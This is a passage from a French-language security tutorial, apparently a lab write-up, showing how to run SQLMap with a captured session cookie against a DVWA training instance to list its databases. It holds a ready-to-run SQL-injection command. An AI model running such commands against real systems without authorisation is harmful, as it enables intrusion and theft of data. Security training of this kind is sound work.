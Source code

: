 ![20-firefox-cookies](../images/2020/11/20-firefox-cookies.png)

Nous avons maintenant le témoin pour utiliser SQLMap.

### SQLMap

SQLMap est un outil pour automatiser l'injection SQL.  C'est un outil en ligne de commande.

Pour déterminer les bases de données accessibles via l'injection SQL :  

```
sqlmap -u "http://192.168.40.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="security=low; PHPSESSID=d62199405e459ee9b9a66cab06d90cd3" \
  -dbs
```

Résultat :  

![20-sqlmap-dbs](../images/2020/07/20-sqlmap-dbs.png)  
